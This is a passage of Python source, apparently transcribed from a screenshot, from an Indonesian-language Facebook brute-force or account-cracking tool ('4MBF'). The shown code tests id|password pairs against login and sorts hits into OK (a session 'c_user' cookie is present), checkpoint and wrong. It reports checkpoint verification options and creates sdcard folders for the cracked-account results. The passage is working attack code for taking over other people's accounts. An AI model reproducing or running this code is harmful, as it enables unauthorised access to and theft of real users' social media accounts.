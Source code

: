 					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))

					opsi = kent.find_all('option')

					if len(opsi)==0:

						print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))

					else:

						for opsii in opsi:

							print('\r%s---> %s%s'%(kk,opsii.text,x))

				except:

					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))

					print('\r%s---> Tidak Dapat Mengecek Opsi%s'%(u,x))

			elif "c_user" in ses.cookies.get_dict().keys():

				print('\r%s++++ %s|%s ----> OK       %s'%(h,id,pw,x))

			else:

				print('\r%s++++ %s|%s ----> SALAH       %s'%(x,id,pw,x))

			love+=1

		except requests.exceptions.ConnectionError:

			print('')

			li = '# KONEKSI INTERNET BERMASALAH, PERIKSA & COBA LAGI'

			sol().print(mark(li, style='red'))

			exit()

	dah = '# DONE'

	sol().print(mark(dah, style='green'))

	exit()



if __name__=='__main__':

	try:os.system('')

	except:pass

	try:os.system('touch .prox.txt')

	except:pass

	try:os.mkdir('/sdcard/4MBF-DATA/CP')

	except:pass

	try:os.mkdir('/sdcard/4MBF-DATA/OK')

	except:pass

	try:os.mkdir('/sdcard/4MBF-DATA/DUMP')

	except:pass

	login()
